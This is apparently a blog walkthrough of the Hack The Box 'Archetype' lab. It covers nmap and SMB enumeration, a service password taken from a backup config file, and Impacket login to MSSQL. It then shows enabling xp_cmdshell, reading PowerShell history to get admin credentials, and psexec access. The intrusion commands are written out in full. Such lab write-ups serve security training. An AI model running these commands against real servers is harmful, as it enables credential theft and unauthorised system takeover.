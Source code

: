 # HTB — Archetype: Hacking Without Reverse Shell

# Enumeration

It all starts with gathering information about the target. We used a tool called **nmap** to scan the target’s IP address like this:

```
nmap {target IP} -Pn -sV
```

![](https://miro.medium.com/v2/resize:fit:875/1*9v4DM-bhzkemNxZ4JStEPQ.png)

Our scan showed that a few doors were open on the target — RPC, SMB, and MSSQL. We decided to focus on the SMB door first and used **smbclient** to explore it:

```
smbclient -L {target IP}
```

![](https://miro.medium.com/v2/resize:fit:875/1*8eI93EPMrCbOO2_7VSV5LQ.png)

We tried to access the ADMIN$ and C$ shares, but we were denied access. Fortunately, we found an accessible share called “backups,” and we started our exploration from there:

```
smbclient \\\\10.129.20.146\\backups - no-pass
```

![](https://miro.medium.com/v2/resize:fit:875/1*eIWhjCt4q-3yKi7G1ADBxw.png)

In this share, we stumbled upon a file named ‘prod.dtsConfig.’ It seemed like a valuable configuration file, so we downloaded it to our local machine using the ‘get’ command.

![](https://miro.medium.com/v2/resize:fit:875/1*S2hPP2nEYn_gtVBy9BH5ag.png)

Upon examining the configuration file, we discovered the login credentials for a user named ‘sql_svc.’ These credentials included the username ‘sql_svc,’ the hostname ‘Archetype,’ and the password ‘M3g4c0rp123.’ We planned to make use of these credentials by using a Python script called ‘mssqlclient’ from the Impacket toolkit:

```
./mssqlclient.py -windows-auth ARCHETYPE/sql_svc@10.129.20.146
```

![](https://miro.medium.com/v2/resize:fit:875/1*BWbz5Jl-1leXMdcxxD5YWQ.png)

We successfully logged into the Microsoft SQL Server and started exploring its features by using the ‘help’ command. Our main goal was to execute commands from within the MSSQL server, so we enabled the ‘xp_cmdshell’ feature:

![](https://miro.medium.com/v2/resize:fit:875/1*21n86H5oq77JO7Bp2PuzMw.png)

```
xp_cmdshell  
exec sp_configure 'show advanced option'  
exec sp_configure 'show advanced option',1  
reconfigure  
exec sp_configure 'xp_cmdshell',1  
reconfigure
```

![](https://miro.medium.com/v2/resize:fit:875/1*Aj-TxQl5SDbtwepgyg1Vbw.png)

Enabling ‘xp_cmdshell’ in the SQL Server gave us access to this handy feature. With it enabled, we looked around the file directory and found the user flag:
```
xp_cmdshell (powershell -c type C:/Users/sql_svc/Desktop/user.==txt==)
```

![](https://miro.medium.com/v2/resize:fit:875/1*O7gWibMtlP1dsE0BhNq-lQ.png)

> Here’s the interesting part — we managed to get the admin’s credentials without using a reverse shell by running this command:

```
xp_cmdshell "powershell -c cat (Get-PSReadlineOption).HistorySavePath"
```

![](https://miro.medium.com/v2/resize:fit:875/1*acgBznbyDIVbqz6c1b60vQ.png)

Now that we had the admin’s credentials, we used a tool called ‘psexec.py’ from the Impacket toolkit to gain access to the admin’s shell and got the root flag :)

```
./psexec.py administrator@10.129.20.146
```

![](https://miro.medium.com/v2/resize:fit:875/1*74Vh6BReOzAcc_kuSdkbVw.png)

**Summary**

In this lab, I successfully utilized a shortcut method that didn’t require the use of a reverse shell. 🚀 This approach allowed for efficient and effective execution of tasks, and I hope that my contribution benefits the community in some way. 🙌